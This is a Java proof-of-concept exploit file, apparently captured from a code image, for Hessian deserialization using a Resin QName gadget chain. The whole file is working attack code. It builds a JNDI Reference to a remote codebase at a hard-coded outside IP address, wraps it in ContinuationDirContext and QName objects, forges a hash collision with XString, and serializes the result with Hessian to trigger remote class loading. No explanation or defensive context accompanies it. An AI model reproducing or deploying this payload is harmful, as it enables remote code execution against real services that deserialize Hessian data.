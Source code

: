 ```
import com.caucho.hessian.io.Hessian2Input;  import com.caucho.hessian.io.Hessian2Output;  import com.caucho.naming.QName;  import com.sun.org.apache.xpath.internal.objects.XString;  import sun.reflect.ReflectionFactory;  import javax.naming.CannotProceedException;  import javax.naming.Reference;  import javax.naming.directory.DirContext;  import java.io.ByteArrayInputStream;  import java.io.ByteArrayOutputStream;  import java.io.IOException;  import java.io.ObjectOutputStream;  import java.lang.reflect.Array;  import java.lang.reflect.Constructor;  import java.lang.reflect.Field;  import java.lang.reflect.InvocationTargetException;  import java.util.Base64;  import java.util.HashMap;  import java.util.Hashtable;  public class hessian_resin {      public static void main(String[] args) throws Exception {          Reference refObj=new Reference("LDAP_POC","LDAP_POC","http://47.109.156.81:6666/");          Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext"); //$NON-NLS-1$          Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);          ccCons.setAccessible(true);          CannotProceedException cpe = new CannotProceedException();          cpe.setResolvedObj(refObj);          DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());          QName qName = new QName(ctx, "boo", "gii");          String unhash = unhash(qName.hashCode());          XString xString = new XString(unhash);          HashMap<Object, Object> map = makeMap(qName, xString);          ByteArrayOutputStream baos = new ByteArrayOutputStream();          Hessian2Output out = new Hessian2Output(baos);          out.getSerializerFactory().setAllowNonSerializable(true);          out.writeObject(map);          out.flushBuffer();          ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());          Hessian2Input input = new Hessian2Input(bais);          input.readObject();          //String ret = Base64.getEncoder().encodeToString(baos.toByteArray());          //System.out.println(ret);      }      public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {          HashMap<Object, Object> s = new HashMap<>();          setFieldValue(s, "size", 2);          Class<?> nodeC;          try {              nodeC = Class.forName("java.util.HashMap$Node");          }          catch ( ClassNotFoundException e ) {              nodeC = Class.forName("java.util.HashMap$Entry");          }          Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);          nodeCons.setAccessible(true);          Object tbl = Array.newInstance(nodeC, 2);          Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));          Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));          setFieldValue(s, "table", tbl);          return s;      }      public static <T> T createWithoutConstructor(Class<T> classToInstantiate) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {          return createWithConstructor(classToInstantiate, Object.class, new Class[0], new Object[0]);      }      public static String serial(Object o) throws IOException, NoSuchFieldException {          ByteArrayOutputStream baos = new ByteArrayOutputStream();          ObjectOutputStream oos = new ObjectOutputStream(baos);          //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");          //writeReplaceMethod.setAccessible(true);        oos.writeObject(o);          oos.close();          String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());          return base64String;      }      public static <T> T createWithConstructor(Class<T> classToInstantiate, Class<? super T> constructorClass, Class<?>[] consArgTypes, Object[] consArgs) throws NoSuchMethodException, InstantiationException, IllegalAccessException, InvocationTargetException {          Constructor<? super T> objCons = constructorClass.getDeclaredConstructor(consArgTypes);          objCons.setAccessible(true);          Constructor<?> sc = ReflectionFactory.getReflectionFactory().newConstructorForSerialization(classToInstantiate, objCons);          sc.setAccessible(true);          return (T) sc.newInstance(consArgs);      }      public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {          Field field = obj.getClass().getDeclaredField(fieldName);          field.setAccessible(true);          field.set(obj, value);      }      public static String unhash ( int hash ) {          int target = hash;          StringBuilder answer = new StringBuilder();          if ( target < 0 ) {              // String with hash of Integer.MIN_VALUE, 0x80000000              answer.append("\\u0915\\u0009\\u001e\\u000c\\u0002");              if ( target == Integer.MIN_VALUE )                  return answer.toString();              // Find target without sign bit set              target = target & Integer.MAX_VALUE;          }          unhash0(answer, target);          return answer.toString();      }      private static void unhash0 ( StringBuilder partial, int target ) {          int div = target / 31;          int rem = target % 31;          if ( div <= Character.MAX_VALUE ) {              if ( div != 0 )                  partial.append((char) div);              partial.append((char) rem);          }          else {              unhash0(partial, div);              partial.append((char) rem);          }      }  }
```  
  